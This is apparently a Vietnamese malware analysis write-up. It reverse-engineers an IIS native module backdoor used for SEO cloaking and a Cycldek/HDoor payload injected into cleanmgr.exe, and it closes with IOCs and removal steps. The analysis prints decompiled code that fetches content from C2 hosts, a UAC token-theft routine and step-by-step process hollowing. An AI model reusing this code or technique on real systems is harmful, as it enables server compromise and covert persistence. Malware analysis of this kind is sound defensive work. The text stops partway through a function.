- **Architecture:** `AMD64`
- **Type:** `DLL`

=> **Nhận xét:** Đây là file PE 64-bit méo phải dạng thông thường!


Kiểm tra trường **AddressOfEntryPoint**:
- Điểm vào (Entry Point) hiện đang nằm trong phân vùng `upx1`.
- => **Suy luận:** Entry Point hiện tại nhiều khả năng chỉ là **Unpacking Stub** của UPX chứ chưa phải là logic thực thi gốc (OEP) của chương trình.


Tiếp theo mình kiểm tra bảng Import (IAT) xem nó có những hàm nào bất thường:
- `LoadLibraryA` → `KERNEL32.DLL`
- `GetProcAddress` → `KERNEL32.DLL`
- `VirtualProtect` → `KERNEL32.DLL`
- `WinHttpOpen` → `WINHTTP.DLL`

Bắt đầu ta có thể phác thảo mô hình phân tích luồng ban đầu như sau:

```text
                  SAMPLE
                    │
        ┌───────────┼────────────┐
        ▼           ▼            ▼
  LoadLibraryA  GetProcAddress  VirtualProtect
        │           │            │
        └─────┬─────┘            │
              ▼                  ▼
      Dynamic API Resolution   Memory Protection
                                   │
                                   ▼
                              WinHttpOpen
                                   │
                                   ▼
                              HTTP capability
```

**Theo phỏng đoán luồng thực thi:**
1. Khi nạp packed DLL vào bộ nhớ →
ightarrow→ CPU nhảy vào `EntryPoint` nằm trong section `upx1`.
2. Chạy đoạn `UPX unpack stub` →
ightarrow→ Giải nén payload ra bộ nhớ và gọi `VirtualProtect` (thay đổi quyền truy cập từ Read/Write sang Execution) →
ightarrow→ Chuyển quyền điều khiển về Original Entry Point (OEP).
3. Gọi `LoadLibraryA` để nạp các DLL cần thiết vào tiến trình và lấy handle/base →
ightarrow→ Dùng `GetProcAddress` để phân giải động thêm các hàm Windows API ẩn.
4. Sau đó gọi đến hàm khả nghi `WinHttpOpen` (theo dự đoán ban đầu, đây chính là dấu hiệu của kết nối mạng tới máy chủ C2).


Mình tìm hiểu nó sẽ làm gì ở phần này bằng cách trace theo lệnh `WinHttpSendRequest()` mà mình đã tìm được sau khi unpack và xem ở PEStudio:

```c
// Hidden C++ exception states: #wind=2
__int64 __fastcall sub_180002800(__int64 a1, const WCHAR *a2)
{
  void *v4; // r14
  void *v5; // rsi
  DWORD v6; // eax
  void *v7; // rax
  void *v8; // rbx
  LPVOID *v9; // rdx
  unsigned __int64 v10; // r8
  LPVOID *v11; // rdx
  DWORD dwNumberOfBytesAvailable[4]; // [rsp+50h] [rbp-B0h] BYREF
  struct →BC2FB811D417144E831EE3AEA4A279C8 UrlComponents; // [rsp+60h] [rbp-A0h] BYREF
  DWORD dwNumberOfBytesRead; // [rsp+D0h] [rbp-30h] BYREF
  LPVOID lpBuffer[2]; // [rsp+D8h] [rbp-28h] BYREF
  unsigned __int64 v17; // [rsp+E8h] [rbp-18h]
  unsigned __int64 v18; // [rsp+F0h] [rbp-10h]
  char v19; // [rsp+100h] [rbp+0h] BYREF
  char v20; // [rsp+300h] [rbp+200h] BYREF

  *(_OWORD *)a1 = 0;
  *(_QWORD *)(a1 + 16) = 0;
  *(_QWORD *)(a1 + 24) = 15;
  *(_BYTE *)a1 = 0;
  v4 = WinHttpOpen(
         L"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
         0,
         nullptr,
         nullptr,
         0);
  if ( v4 )
  {
    memset(&UrlComponents, 0, 24);
    memset(&UrlComponents.dwHostNameLength, 0, 40);
    memset(&UrlComponents.dwUrlPathLength, 0, 24);
    UrlComponents.dwStructSize = 104;
    UrlComponents.lpszHostName = &v19;
    UrlComponents.dwHostNameLength = 256;
    UrlComponents.lpszUrlPath = &v20;
    UrlComponents.dwUrlPathLength = 1024;
    WinHttpCrackUrl(a2, 0, 0, &UrlComponents);
    v5 = WinHttpConnect(v4, (LPCWSTR)UrlComponents.lpszHostName, UrlComponents.nPort, 0);
    if ( v5 )
    {
      v6 = 0;
      if ( UrlComponents.nScheme == INTERNET_SCHEME_GOPHER )
        v6 = 0x800000;
      v7 = WinHttpOpenRequest(v5, L"GET", (LPCWSTR)UrlComponents.lpszUrlPath, nullptr, nullptr, nullptr, v6);
      v8 = v7;
      if ( v7 )
      {
        if ( WinHttpSendRequest(v7, nullptr, 0, nullptr, 0, 0, 0) && WinHttpReceiveResponse(v8, nullptr) )
        {
          dwNumberOfBytesRead = 0;
          do
          {
            dwNumberOfBytesAvailable[0] = 0;
            if ( WinHttpQueryDataAvailable(v8, dwNumberOfBytesAvailable) )
            {
              if ( !dwNumberOfBytesAvailable[0] )
                break;
              sub_180006BA0(lpBuffer, dwNumberOfBytesAvailable[0], 0);
              v9 = lpBuffer;
              if ( v18 > 0xF )
                v9 = (LPVOID *)lpBuffer[0];
              if ( WinHttpReadData(v8, v9, dwNumberOfBytesAvailable[0], &dwNumberOfBytesRead) )
              {
                v10 = dwNumberOfBytesRead;
                if ( v17 < dwNumberOfBytesRead )
                  v10 = v17;
                v11 = lpBuffer;
                if ( v18 > 0xF )
                  v11 = (LPVOID *)lpBuffer[0];
                sub_1800075F0(a1, v11, v10);
              }
              if ( v18 > 0xF )
              {
                if ( v18 + 1 >= 0x1000 && (unsigned __int64)lpBuffer[0] - *((_QWORD *)lpBuffer[0] - 1) - 8 > 0x1F )
                  invalid_parameter_noinfo_noreturn();
                sub_180031A5C();
              }
            }
          }
          while ( dwNumberOfBytesAvailable[0] );
        }
        WinHttpCloseHandle(v8);
      }
      WinHttpCloseHandle(v5);
    }
    WinHttpCloseHandle(v4);
  }
  return a1;
}
```


Tiếp theo mình sẽ strings các domain khả nghi của con malware này để giúp phân tích luồng trở nên đơn giản hơn.
Tiếp theo

Sơ đồ luồng tổng quan mà mình đã dựng lại từ quá trình phân tích tĩnh:

```text
                       1.sample
                          │
                          ▼
                    UPX packed
                          │
                       upx -d
                          ▼
                     1_de.sample
                          │
                          ▼
                    IIS loads DLL
                          │
                          ▼
                    RegisterModule
                          │
                          ▼
                MyHttpModuleFactory
                          │
                          ▼
                    MyHttpModule
                          │
                          ▼
                  HTTP request event
                          │
                          ▼
                  sub_1800031C0
                          │
             ┌────────────┼─────────────┐
             │            │             │
             ▼            ▼             ▼
        kiểm tra path   tạo URL      xử lý data
             │
      ┌──────┼──────────────┐
      ▼      ▼              ▼
   /index  /sitemap     /google...
  .html/.htm   .xml     verification
                │
                ▼
          HTTP GET ra ngoài
                │
        ┌───────┴────────┐
        ▼                ▼
 sub_180002800      sub_180002AA0
 Chrome UA          Googlebot UA
        │                │
        └───────┬────────┘
                ▼
             WinHTTP
                │
     ┌──────────┼──────────┐
     ▼          ▼          ▼
 Connect     GET       Receive
                         │
                         ▼
                    ReadData
                         │
                         ▼
                response buffer
                         │
                         ▼
               sub_180002D40
                         │
                   split theo \n
                         │
                  lọc whitespace
                         │
                         ▼
                  vector<string>
                         │
                         ▼
                  xử lý URL/path
                         │
                         ▼
                tạo HTML / sitemap
                         │
                         ▼
                  HTTP Response
```

Hoặc nhìn dưới dạng sơ đồ Mermaid chi tiết cho dễ hình dung luồng xử lý:



---

### Phân tích chi tiết mã giả & Bản chất kỹ thuật

Đoạn này trông khá thu vị: sau khi dịch ngược bằng IDA, ta thấy con DLL này không phải là một file thực thi hay trojan bình thường, mà bản chất của nó là một **Native HTTP Module của máy chủ web Microsoft IIS**!

#### 1. Cơ chế đăng ký vào IIS: Hàm `RegisterModule` & `MyHttpModuleFactory`

Mã độc xuất khẩu duy nhất 1 hàm có tên `RegisterModule` (Ordinal 1, địa chỉ `0x180005DA0`). Đây chính là hàm chuẩn mà tiến trình IIS (`w3wp.exe`) sẽ gọi khi nạp một Native Module C++:

```c
__int64 __fastcall RegisterModule(__int64 a1, __int64 a2)
{
  _QWORD *v3;

  v3 = (_QWORD *)sub_1800315E0(8);             // Cấp phát đối tượng MyHttpModuleFactory
  *v3 = &MyHttpModuleFactory::`vftable';       // Gán vftable tại 0x1800671a0
  // Gọi pModuleInfo->RegisterGlobalModule(pFactory, 1, 0)
  return (*(__int64 (__fastcall **)(__int64, _QWORD *, __int64, _QWORD))(*(_QWORD *)a2 + 16LL))(a2, v3, 1, 0);
}
```

Tiếp đó, hàm tạo module `MyHttpModuleFactory::GetHttpModule` (tại `0x180005D60`) sẽ khởi tạo lớp `MyHttpModule`:

```c
__int64 __fastcall sub_180005D60(__int64 a1, _QWORD *a2)
{
  _QWORD *v4;

  v4 = (_QWORD *)sub_1800315E0(8);             // Cấp phát đối tượng MyHttpModule
  *v4 = &MyHttpModule::`vftable';              // Gán vftable tại 0x1800671b0
  *a2 = v4;
  return 0;
}
```

Lớp `MyHttpModule` kế thừa từ `CHttpModule` của IIS SDK và **ghi đè phương thức đầu tiên trong bảng hàm ảo (vtable slot 0)**, chính là sự kiện **`OnBeginRequest`** (`sub_1800031C0`). Mọi request gửi tới web server IIS đều sẽ bị hàm này chặn lại phân tích trước khi đến tay web application!

---

#### 2. Trọng tâm mã độc: Hàm xử lý sự kiện `sub_1800031C0` (`OnBeginRequest`)

Hàm này dài hơn 2000 dòng mã giả, nhận vào con trỏ `IHttpContext *pHttpContext`. Nó lấy thông tin request thông qua các phương thức của IIS:
- Lấy `Host` header: `pRequest->GetHeader(28)` (Header ID 28 = `HttpHeaderHost`).
- Lấy đường dẫn URL: `pRequest->GetRawUrl()` và convert sang Unicode bằng `MultiByteToWideChar`.
- Lấy `Referer` header: `pRequest->GetHeader(36)` (Header ID 36 = `HttpHeaderReferer`).
- Lấy `User-Agent` header: `pRequest->GetHeader(40)` (Header ID 40 = `HttpHeaderUserAgent`).

Bắt đầu phân tích từng nhánh rẽ:

##### Nhánh 1: Cướp quyền xác minh Google Search Console
Mã độc kiểm tra nếu đường dẫn URL là `/google84d162603ffc785f.html` (chiều dài 28 ký tự):

```c
v32 = L"/google84d162603ffc785f.html";
if ( v297 == 28 && !wcscmp(lpUrl, L"/google84d162603ffc785f.html") )
{
    // Trả về trực tiếp chuỗi token xác minh Google Search Console
    sub_180008250(&v306, "google-site-verification: google84d162603ffc785f.html");
    // Chặn request tại đây và hoàn tất phản hồi HTTP về cho Google
    ...
}
```

-> **Ý đồ của tác giả:** Hacker dùng file HTML này để Google tin rằng hacker chính là chủ sở hữu website, từ đó có thể vào Google Search Console để submit sitemap độc hại và theo dõi thứ hạng từ khóa spam!

##### Nhánh 2: Nhận diện bot tìm kiếm (Googlebot Detection)
Mã độc duyệt qua chuỗi User-Agent, đổi sang chữ thường bằng hàm `sub_180037428` (`tolower`) và so sánh với chuỗi `googlebot` (8 byte: `0x6F62656C676F6F67LL` = "googlebo" + 1 byte `116` = 't'):

```c
// Kiểm tra User-Agent có chứa "googlebot"
while ( *(_QWORD *)v38 != 0x6F62656C676F6F67LL || *(_BYTE *)(v38 + 8) != 116 )
```

Nếu đúng là **Googlebot**:
1. **Nếu bot truy cập trang chủ (`/`, `/index.html`, `/index.htm`):**
   - Tạo URL `http://<Host>/` rồi gọi hàm `sub_180002800` (giả lập Chrome UA) để lấy nội dung web gốc.
   - Tiếp tục gọi `sub_180002800` tải nội dung SEO bẩn từ máy chủ C2 `http://qweb2.com/888/index2.php`.
   - Ghép thêm liên kết ẩn `<a class="Go_Home" href="/">Go_Home</a><a class="sitemap" href="/sitemap.xml">sitemap</a>` rồi trả dữ liệu đã bị đầu độc này về cho Googlebot lập chỉ mục (index)!
2. **Nếu bot truy cập sitemap (`/sitemap.xml`):**
   - Mã độc gọi `sub_180002800` để lấy danh sách URL từ C2: `http://qweb2.com/st/`.
   - Chuyển buffer nhận được vào hàm `sub_180002D40` để bóc tách từng dòng.
   - Tự động sinh ra cấu trúc XML sitemap chuẩn (`<urlset> ... <loc> ... </loc> </urlset>`) với Header `Content-Type: text/xml`, gọi `IHttpResponse::WriteEntityChunks` trả trực tiếp cho bot.

##### Nhánh 3: Khai thác người dùng đến từ tìm kiếm Google (Referer `google.com`)
Mã độc kiểm tra trường Header `Referer` (ID 36):

```c
// v127 là con trỏ tới chuỗi Header Referer
if ( !v127 || !sub_1800333E0(v127, "google.com") )
{
    // Nếu Referer KHÔNG chứa "google.com" thì tiếp tục các kiểm tra khác
}
else
{
    // Nếu Referer CHỨA "google.com" (tức người dùng vừa search trên Google và click vào link trang web)
    v129 = sub_180002800((__int64)v303, L"http://www.massnetworks.org/");
    // Trả nội dung từ massnetworks.org hoặc chuyển hướng người dùng sang trang lừa đảo!
}
```

##### Nhánh 4: Người dùng bình thường gõ URL trực tiếp
Nếu không phải Googlebot và cũng không có Referer từ `google.com`, mã độc sẽ bỏ qua, trả về `0` cho pipeline IIS xử lý bình thường. Nhờ thế quản trị viên web mở trang lên test vẫn thấy web chạy mượt mà, không hề hay biết máy chủ của mình đã bị cắm backdoor!

---

#### 3. Các hàm bổ trợ mạng & Xử lý chuỗi

##### Hàm `sub_180002800` & `sub_180002AA0`: Kết nối WinHTTP ra ngoài
Mã độc sử dụng 2 hàm riêng biệt để gửi HTTP GET qua thư viện `WINHTTP.dll`, phân biệt bằng User-Agent:
- **`sub_180002800` (Giả lập Chrome UA):** Dùng User-Agent `Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36` khi tải trang của nạn nhân, tải nội dung từ `http://qweb2.com/888/index2.php`, `http://qweb2.com/st/` và `http://www.massnetworks.org/`.
- **`sub_180002AA0` (Giả lập Googlebot UA):** Dùng User-Agent `Googlebot/2.1 (+http://www.google.com/bot.html)` khi giao tiếp với `http://qweb2.com` để mạo danh bot vượt qua WAF hoặc đánh lừa hệ thống log:

```c
__int64 __fastcall sub_180002AA0(__int64 a1, const WCHAR *a2)
{
  ...
  v4 = WinHttpOpen(L"Googlebot/2.1 (+http://www.google.com/bot.html)", 0, nullptr, nullptr, 0);
  if ( v4 )
  {
    WinHttpCrackUrl(a2, 0, 0, &UrlComponents);
    v5 = WinHttpConnect(v4, (LPCWSTR)UrlComponents.lpszHostName, UrlComponents.nPort, 0);
    ...
    v7 = WinHttpOpenRequest(v5, L"GET", (LPCWSTR)UrlComponents.lpszUrlPath, nullptr, nullptr, nullptr, v6);
    if ( v7 )
    {
      if ( WinHttpSendRequest(v7, nullptr, 0, nullptr, 0, 0, 0) && WinHttpReceiveResponse(v8, nullptr) )
      {
        // Vòng lặp đọc dữ liệu trả về từ máy chủ
        do {
          WinHttpQueryDataAvailable(v8, dwNumberOfBytesAvailable);
          WinHttpReadData(v8, lpBuffer, dwNumberOfBytesAvailable[0], &dwNumberOfBytesRead);
          sub_1800075F0(a1, lpBuffer, dwNumberOfBytesRead);
        } while ( dwNumberOfBytesAvailable[0] );
      }
      WinHttpCloseHandle(v8);
    }
    WinHttpCloseHandle(v5);
  }
  WinHttpCloseHandle(v4);
  return a1;
}
```

##### Hàm `sub_180002D40`: Xử lý mảng Sitemap
Hàm này nhận chuỗi phản hồi từ `http://qweb2.com/st/`:
- Dùng `sub_1800581D0` tìm ký tự xuống dòng `\n` (mã ASCII 10).
- Dùng `sub_180038760` (`isspace`) để lọc bỏ khoảng trắng thừa đầu và cuối mỗi dòng.
- Đẩy từng dòng URL sạch vào `std::vector<std::string>` phục vụ việc dựng thẻ `<loc>` trong `sitemap.xml`.

---

### Kết luận & Đánh giá Rủi ro

Qua toàn bộ quá trình phân tích tĩnh, ta có thể kết luận chắc chắn:
1. **Phân loại họ mã độc:** **IIS Native Module Backdoor / Blackhat SEO Poisoning & Cloaking Trojan**.
2. **Kỹ thuật ngụy trang:** Sử dụng kỹ thuật **Cloaking (ngụy trang tìm kiếm)** cực kỳ tinh vi:
   - Googlebot thấy một trang web tràn ngập từ khóa spam, link sitemap cờ bạc/lừa đảo.
   - Người dùng tìm kiếm từ Google bị chuyển hướng sang trang quảng cáo độc hại (`massnetworks.org`).
   - Quản trị viên và người dùng trực tiếp thấy trang web hoàn toàn bình thường.
3. **Mục đích của kẻ tấn công:**
   - Ký sinh vào uy tín (Domain Authority / PageRank) của website bị nhiễm để đẩy thứ hạng từ khóa đen lên top tìm kiếm Google mà không cần xây dựng hệ thống web vệ tinh.
   - Chiếm đoạt quyền xác minh Google Search Console để kiểm soát việc index URL.

---

### Bảng Chỉ số IOCs Thu thập được

| Loại IOC | Giá trị | Ý nghĩa |
| :--- | :--- | :--- |
| **MD5 (Packed)** | `2ac84971b08781272ef591ca02b8d98f` | Mẫu gốc `1.sample` |
| **SHA-256 (Packed)** | `a5ef58631cc8fa9d39cac9ba9989dc2942ccabe011da2ca098d1f5ec9250c772` | Mẫu gốc `1.sample` |
| **MD5 (Unpacked)** | `79e4f904db9f6f767ac967d156545fb3` | Mẫu sau khi unpack `1_de.sample` |
| **SHA-256 (Unpacked)** | `f1e5a8e800d3232873c81527d622536afabc7ae381aeb8a2889296a271380304` | Mẫu sau khi unpack `1_de.sample` |
| **C2 Domain / URL** | `http://qweb2.com/888/index2.php` | Nguồn tải nội dung SEO spam chèn vào trang chủ |
| **C2 Domain / URL** | `http://qweb2.com/st/` | Nguồn danh sách link tạo sitemap động |
| **Redirect URL** | `http://www.massnetworks.org/` | URL chuyển hướng khi người dùng đến từ Google |
| **Google Verification** | `/google84d162603ffc785f.html` | Đường dẫn file xác thực Search Console |
| **Verification Token** | `google-site-verification: google84d162603ffc785f.html` | Chuỗi phản hồi xác minh quyền sở hữu web |
| **Export Function** | `RegisterModule` | Điểm bắt buộc để nạp module vào IIS |

---

### Hướng dẫn Xử lý & Gỡ bỏ trên Máy chủ IIS

1. **Liệt kê và gỡ module độc hại bằng lệnh `appcmd`:**
   ```cmd
   %windir%\system32\inetsrv\appcmd.exe list config -section:system.webServer/globalModules
   %windir%\system32\inetsrv\appcmd.exe uninstall module /module.name:"<Tên_Module_Khai_Báo>"
   ```

2. **Kiểm tra file cấu hình IIS:**
   - Mở `C:\Windows\System32\inetsrv\config\applicationHost.config`, tìm và xóa các dòng khai báo module trỏ tới file DLL khả nghi trong `<globalModules>` và `<modules>`.
   - Rà soát file `web.config` ở thư mục web gốc.
   - Khởi động lại web server: `iisreset`.

3. **Dọn dẹp trên Google Search Console:**
   - Đăng nhập Search Console, vào mục Cài đặt →\rightarrow→ Người dùng và quyền hạn, xóa ngay tài khoản xác minh qua file `google84d162603ffc785f.html`.
   - Submit lại file `sitemap.xml` chuẩn và yêu cầu Google re-index để xóa các URL rác.

## Mẫu 2: Phân tích mẫu mã độc APT Cycldek / HDoor Backdoor (cleanmgr.exe Memory Dump & Payload XBoxBody.dll)

### 2.2.1. Thông tin định danh & Bối cảnh thu thập mẫu (Dump Triage)

Trong kịch bản điều tra thứ hai, đối tượng phân tích không phải là một tệp thực thi độc lập đơn thuần trên đĩa, mà là một tệp **kết xuất toàn bộ bộ nhớ (Full Process Memory Dump)** được trích xuất từ một máy trạm Windows nghi vấn bị xâm nhập trong mạng nội bộ:

- **Tệp tin phân tích:** `cleanmgr.exe_241124_222256.dmp`
- **Định dạng tệp:** `Windows Minidump / Userdump (Magic: 'MDMP', Header Version: 0xa061a793)`
- **Thời điểm trích xuất:** `2024-11-24 22:22:56 UTC`
- **Mã băm MD5:** `f13a9fbd8e30fc86f4cd685d412e9be0`
- **Mã băm SHA-256:** `b1548b6f11b5137b364878176a8ee10d5cc398e530eab306439efb7c5a3613fa`

```text
Sau khi trích xuất bằng  procdump64.exe -ma 200 (PID: 200) ta có                                        
  Tiến trình đích     : C:\Windows\SysWOW64\cleanmgr.exe (Windows Disk Space Cleanup Tool)       
  Kiến trúc thực thi  : 32-bit x86 (chạy dưới subsystem WOW64 trên Windows 64-bit)                 
 Dấu hiệu bất thường : cleanmgr.exe (tiện ích dọn rác đĩa) nhưng tải wininet.dll, winhttp.dll,   
                       ws2_32.dll và duy trì kết nối mạng ra ngoài Internet.                      


 **Dấu hiệu bất thường** : cleanmgr.exe (tiện ích dọn rác đĩa) nhưng tải wininet.dll, winhttp.dll,ws2_32.dll và duy trì kết nối mạng ra ngoài Internet.   

Khi đọc trường `CommentStreamW` (Stream ID 11) của tệp dump, ta thu được thông tin gốc do chuyên gia phản ứng sự cố ghi nhận khi bắt giữ tiến trình:
```text
*** procdump64.exe -ma 200
*** Manual dump
```


#### Vấn đề an ninh trọng tâm đặt ra:
Tiện ích `cleanmgr.exe` (Windows Disk Space Cleanup Manager) là một công cụ hệ thống hợp pháp có sẵn của Microsoft, chỉ có nhiệm vụ quét và xóa các tệp rác, file tạm, cache trình duyệt trên ổ đĩa. Nó **hoàn toàn không có bất kỳ lý do kỹ thuật nào để nạp các thư viện mạng (`wininet.dll`, `winhttp.dll`), tạo Socket kết nối ra ngoài Internet, hay thu thập dữ liệu người dùng**.

Sự xuất hiện của các kết nối mạng bất thường trong tiến trình này chỉ ra rõ ràng: `cleanmgr.exe` đã bị lợi dụng làm **LOLBin (Living-off-the-Land Binary)** để che giấu hành vi tiêm mã độc (**Process Injection / Process Hollowing**), nhằm vượt qua sự kiểm soát của hệ thống Antivirus và tường lửa biên mạng (Firewall).

---

### 2.2.2. Khai quật & Tái tạo cấu trúc bộ nhớ (Memory Carving & PE Reconstructing)

Tiến hành phân tích sâu `MemoryInfoListStream` (chứa 699 vùng nhớ được ánh xạ) và `ModuleListStream` (danh sách 66 DLLs đã nạp) của tiến trình, phân tích viên phát hiện những điểm bất thường mang tính quyết định:




#### 1. Phát hiện thư viện PE ẩn tại địa chỉ `0x10000000`:
- Vùng nhớ từ `0x10000000` đến `0x10049000` mang cờ bảo vệ `PAGE_EXECUTE_READ` và thuộc loại `MEM_PRIVATE`.
- Tại địa chỉ `0x10000000`, 64 byte đầu tiên chứa chữ ký chuẩn `MZ` (`0x4D 0x5A`), `e_lfanew` trỏ tới PE Header với cấu trúc bảng phân vùng hoàn chỉnh:
  - Phân vùng `.text`: RVA `0x1000`, Virtual Size `0x33000` bytes (Mã máy thực thi)
  - Phân vùng `.rdata`: RVA `0x34000`, Virtual Size `0xbc00` bytes (Hằng số, IAT, chuỗi)
  - Phân vùng `.data`: RVA `0x40000`, Virtual Size `0x2200` bytes (Biến toàn cục)
  - Phân vùng `.rsrc`: RVA `0x47000`, Virtual Size `0x200` bytes
  - Phân vùng `.reloc`: RVA `0x48000`, Virtual Size `0x7800` bytes
    
- Khi đối chiếu với `ModuleListStream` (danh sách DLL chính thức do Windows Loader quản lý trong PEB), **hoàn toàn không có bất kỳ module nào được ghi nhận tại địa chỉ `0x10000000`**.
- => **Kết luận:** Đây là một module độc hại được tiêm phản xạ (**Reflective DLL Injection**) hoặc bung mã trực tiếp trên RAM, không nạp qua API chuẩn `LoadLibrary` để tránh bị phát hiện.


#### 2. Trích xuất và định danh Module nhúng (`XBoxBody.dll`):
Trích xuất khối nhị phân này ra đĩa tại offset `0x00db3537` trong tệp dump (tên file trích xuất: `cleanmgr.exe_241124_222256.dmp.00db3537_00048c00.dll`), ta thu được siêu dữ liệu nhị phân nguyên bản:
- **Tên DLL nội bộ (Export Name):** `XBoxBody.dll`
- **Hàm xuất khẩu (Export Function):** `ConnBody` (Ordinal 1, RVA `0xbb10` / Địa chỉ thực thi: `0x1000bb10`)
- **Kiến trúc:** Intel 386 (x86 32-bit), GUI Subsystem
- **Dấu thời gian biên dịch gốc (Compile TimeDateStamp):** `1523265641` (Thứ Hai, ngày 09 tháng 04 năm 2018 09:20:41 UTC)
- **Mã băm MD5:** `aaf0789e066331645647d651022bf7e5`
- **Mã băm SHA-256:** `6504c6e0136c7e03b683b899ef83e6de994ae208ce12ad2d86ce73c9919d42f1`

---

### 2.2.3. Cơ chế Nâng quyền (Privilege Escalation) & Token Duplication

Khi dịch ngược mã máy của `XBoxBody.dll` tại cụm hàm khởi tạo từ `0x100027e0` đến `0x1000287b`, ta khám phá kỹ thuật đánh cắp và nâng quyền Access Token cực kỳ tinh vi của kẻ tấn công:

```
// Đoạn mã giả dịch ngược thuật toán nâng quyền Token :
BOOL EscalateAndImpersonateToken()
{
    HANDLE hProcess;
    HANDLE hToken;
    HANDLE hLinkedToken = NULL;
    DWORD dwLength = 0;
    TOKEN_LINKED_TOKEN linkedToken;

    // 1. Mở tiến trình mục tiêu với quyền truy vấn thông tin
    hProcess = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, targetPid); // 0x400
    if (!hProcess) return FALSE;
    -> đặt giá trị của open process là false để không truyền handle xuống các tiến trình con nào
    vì mục tiêu của nó chỉ là lấy token đặc quyền
    // 2. Mở Token của tiến trình mục tiêu với toàn quyền
    if (!OpenProcessToken(hProcess, TOKEN_ALL_ACCESS, &hToken)) { // 0xF00FF
        CloseHandle(hProcess);
        return FALSE;
    }

    // 3. Truy vấn Token liên kết (TokenLinkedToken = 0x13) để bẻ khóa UAC
    if (GetTokenInformation(hToken, (TOKEN_INFORMATION_CLASS)0x13, &linkedToken, sizeof(linkedToken), &dwLength)) {
        hLinkedToken = linkedToken.LinkedToken;
    } else {
        // Nếu không có Token liên kết, nhân bản trực tiếp Primary Token
        DuplicateTokenEx(hToken, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokenPrimary, &hLinkedToken);
    }
    -> nếu nó tìm thấy elevated token thì thành công nếu không thì nó sẽ tự động nhân bản trực tiếp primary token để
    khởi tạo enviroment block

    // 4. Tạo khối môi trường (Environment Block) cho tài khoản đặc quyền
    if (hLinkedToken) {
        CreateEnvironmentBlock(&lpEnvironment, hLinkedToken, FALSE);
    }

    return (hLinkedToken != NULL);
}
```

```text
Mã máy Assembly tương ứng tại 0x100027e6:
0x100027e6:  push   ebp
0x100027e7:  push   0x400                     ; PROCESS_QUERY_INFORMATION
0x100027ec:  call   dword ptr [OpenProcess]   ; Mở tiến trình
0x100027f6:  push   ecx
0x100027f7:  push   0xf00ff                   ; TOKEN_ALL_ACCESS
0x100027fc:  push   eax
0x100027fd:  call   dword ptr [OpenProcessToken]
0x10002820:  lea    eax, [esp + 0x38]
0x10002824:  push   eax
0x10002825:  push   0x13                      ; TokenLinkedToken (bóc tách Token Admin khi bật UAC)
0x10002827:  push   ecx
0x10002830:  call   dword ptr [GetTokenInformation]
0x10002858:  call   dword ptr [DuplicateTokenEx]
0x10002875:  call   dword ptr [CreateEnvironmentBlock]
```

**Bản chất kỹ thuật:**
Khi Windows bật cơ chế UAC, một tài khoản thuộc nhóm admin khi đăng nhập sẽ được cấp 2 Token: một Filtered Token (bị tước quyền Admin để chạy app thường) và một Elevated Token (chứa đầy đủ đặc quyền quản trị).
Bằng cách triệu gọi `GetTokenInformation` với chỉ số `0x13` (`TokenLinkedToken`), mã độc đã **rút trích thành công Token quản trị ẩn** của phiên người dùng, sau đó nhân bản bằng `DuplicateTokenEx` và tạo sẵn môi trường thực thi để chuẩn bị tạo một tiến trình mới với toàn quyền hệ thống mà không hề kích hoạt hộp thoại cảnh báo UAC trên màn hình!

---

### 2.2.4. Kỹ thuật Tiêm mã Process Hollowing vào LOLBin (cleanmgr.exe)

Ngay sau khi có được Token đặc quyền, mã độc bước vào giai đoạn thực thi kỹ thuật **Process Hollowing (Rỗng ruột tiến trình - MITRE T1055.012)** kinh điển:

#### Phân tích chi tiết từng bước Assembly từ `0x100028b5` đến `0x10002990`:
1. **Khởi tạo tiến trình bị treo:**
   - Mã độc truyền cờ `0x4` (`CREATE_SUSPENDED`) cùng đường dẫn `C:\Windows\SysWOW64\cleanmgr.exe` và Token nhân bản vào API `CreateProcessAsUserW` tại `0x100028cc`. Tiến trình `cleanmgr.exe` được Windows nạp vào danh sách tiến trình hệ thống, cấp PID hợp lệ (ở đây là PID `200`), nhưng chưa chạy bất kỳ dòng mã nào.
2. **Trích xuất ngữ cảnh CPU:**
   - Mã độc đẩy cờ `0x1003f` (`CONTEXT_FULL`) vào stack và gọi `GetThreadContext` tại `0x10002927` để đọc cấu trúc thanh ghi CPU của luồng chính `cleanmgr.exe`.
3. **Cấp phát bộ nhớ từ xa:**
   - Gọi `VirtualAllocEx` tại `0x10002942` với tham số `0x40` (`PAGE_EXECUTE_READWRITE`) và `0x1000` (`MEM_COMMIT`), mở rộng không gian nhớ trong tiến trình `cleanmgr.exe`.
4. **Bơm mã độc:**
   - Gọi `WriteProcessMemory` tại `0x10002963`, ghi đè toàn bộ thư viện `XBoxBody.dll` và payload vào vùng nhớ vừa tạo.
5. **Đổi hướng con trỏ lệnh & Đánh thức:**
   - Ghi đè địa chỉ vùng nhớ mới vào thanh ghi `EIP` trong cấu trúc ngữ cảnh (`mov [esp + 0x148], esi`), nạp lại CPU bằng `SetThreadContext` tại `0x10002981`, và cuối cùng gọi `ResumeThread` tại `0x1000298c`.
   - Lúc này, hệ điều hành Windows và các phần mềm giám sát tiến trình chỉ nhìn thấy `cleanmgr.exe` đang chạy một cách hợp lệ, nhưng thực chất mã nguồn bên trong đang thi hành là toàn bộ logic gián điệp của `XBoxBody.dll`!

---

### 2.2.5. Dịch ngược Module Payload XBoxBody.dll (Export ConnBody)

Tiến hành dịch ngược điểm xuất phát của thư viện `XBoxBody.dll`: hàm **`ConnBody`** (RVA `0xbb10` / Địa chỉ thực thi ảo: `0x1000bb10`):

```c
// Mã giả hàm xuất khẩu ConnBody tại 0x1000bb10:
__declspec(dllexport) int __cdecl ConnBody(
    int a1, int a2, int a3, int a4,
    int a5, int *pVictimId, int a7, int a8)
{
    // Lưu các con trỏ quản lý trạng thái phiên vào biến toàn cục
    g_pSessionContext = a5;
    g_dwVictimCode = *pVictimId;

    // Kiểm tra và khởi tạo cấu trúc kết nối mạng
    if (g_szServerDomain[0] == '\0') {
        InitializeNetworkContext(a7, a8);
    }

    // Sao chép buffer cấu hình và thông tin định danh máy nạn nhân
    memcpy(&g_ConfigBuffer, &a1, 0x32);
    g_ParamA = a2;
    g_ParamB = a4;

    // Khởi tạo và kích hoạt vòng lặp điều khiển C2
    while (ProcessC2Messages(g_pSessionContext)) {
        // Lặp nhận lệnh từ máy chủ C2
    }

